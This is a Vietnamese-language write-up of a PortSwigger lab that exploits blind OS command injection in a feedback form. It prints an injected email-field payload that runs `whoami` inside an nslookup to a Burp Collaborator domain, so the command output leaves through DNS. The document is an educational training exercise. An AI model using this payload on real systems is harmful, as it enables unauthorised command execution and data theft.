 # Write-up: Blind OS command injection with out-of-band interaction

### Tổng quan
Khai thác lỗ hổng blind OS command injection trong chức năng feedback, sử dụng kỹ thuật out-of-band interaction để thực thi lệnh nslookup và lấy kết quả whoami qua Burp Collaborator.

### Mục tiêu
- Thực thi lệnh `nslookup` để gây ra DNS lookup tới Burp Collaborator và lấy tên người dùng hiện tại.

### Công cụ sử dụng
- Burp Suite Pro
- Firefox Browser 

### Quy trình khai thác
1. **Thu thập thông tin (Reconnaissance)**
- Gửi feedback bất kỳ, bắt yêu cầu POST tới `/feedback/submit` trong Burp Proxy HTTP History:
    - Gửi yêu cầu này tới Repeater để thử nghiệm.
    ![lỗi](./images/fb.png)

2. **Khai thác (Exploitation)**
- Thay đổi tham số `email` để chèn lệnh `nslookup` với tên miền Burp Collaborator:
    ```
    email=test%40gmail.com&nslookup `whoami`.6y5nwnftee1m629h0bth9kr65xbozfn4.oastify.com &
    ```
- Gửi yêu cầu trong Repeater:
    ![send](./images/send.png)
    - **Kết quả**: Kiểm tra Burp Collaborator, nhận DNS lookup với nội dung `peter`, xác nhận lệnh `whoami` được thực thi, hoàn thành lab:
    ![whoami](./images/peter.png)
    ![solved](./images/solved.png)

### Bài học rút ra
- Hiểu cách khai thác blind OS command injection bằng out-of-band interaction khi không có output trực tiếp.
- Nhận thức tầm quan trọng của việc kiểm tra và lọc dữ liệu người dùng trước khi thực thi lệnh hệ thống.

### Tài liệu tham khảo
- PortSwigger: OS command injection

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác blind OS command injection, sử dụng out-of-band interaction để thực thi lệnh `nslookup` và lấy kết quả qua Burp Collaborator. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 5/2025.*
